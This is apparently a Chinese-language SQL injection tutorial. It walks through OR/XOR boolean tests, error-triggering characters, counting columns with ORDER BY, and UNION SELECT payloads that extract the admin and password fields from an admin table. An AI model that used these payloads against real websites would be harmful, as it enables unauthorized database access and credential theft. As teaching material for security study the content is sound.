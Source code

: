 ![](http://image.ixysec.com/image/sql/sql004.png)
select * from product where id=1406 or 1=2   //1406 or 1=2 返回id等与1406的结果

![](http://image.ixysec.com/image/sql/sql005.png)
具体页面怎么显示还要看代码怎么写的，实战中可能会有所不同。

```
xor 1=1
xor 1=2

逻辑异或。 如果任一操作数为NULL，则返回NULL。 对于非NULL操作数，如果奇数个操作数非零，则求值为1，否则返回0。

a XOR b 等同( a AND (NOT b) ) 或 ( (NOT a) AND b ),就是两个不能同时成立,也不能同时不成立,只成立其中一个条件
```
select * from product where id=1406 xor 1=1
a AND (NOT b)   返回空结果
(NOT a) AND b   返回id不等于1406的所有结果


select * from product where id=1406 xor 1=2
a AND (NOT b)   返回id等于1406的结果
(NOT a) AND b   返回空结果

如果过滤了=号换成“>”或“<”一个道理。
还有简单的方法就是在id参数后加特殊符号，如’ “ \ % *等一切可能使SQL语句报错的字符。

**联合查询法**
猜字段个数
```
order by 22 # 回显正确
```
![](http://image.ixysec.com/image/sql/sql006.png)
```
order by 23 # 回显错误
```
![](http://image.ixysec.com/image/sql/sql007.png)
因此存在22个字段。

说明：这里判断出来的字段是当前页面所连接的表的字段个数而非管理员表字段个数；准确的说是当前页面SQL语句查询的字段个数，例如select * from news猜出的字段数就是news表中所有字段个数，如果select id,title from news猜解出的就只有两个字段；

order by 是按照字段数据进行排序，用法为：order by 字段名，之所以能用来判断字段个数是因为，order by 1 <==> 按第一个字段排序，如果查询结果中一共22个字段order by 23就会出错。

猜表名
```
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 from admin
```
UNION是联合查询，将前后两条查询语句的结果组和到一起返回。SELECT后面的数字只是为了占位置，因为两条查询结果字段数不同的话会出错不会正常返回。

![](http://image.ixysec.com/image/sql/sql008.png)

可以看到3和15两个字段的内容被输出到页面中，我们可以通过这两个位置继续查询我们想要的数据并显示。

猜列名并爆数据
```
UNION SELECT 1,2,admin,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22 from admin
```
admin和password是admin表中的字段名，ACCESS数据库只能靠暴力猜解。
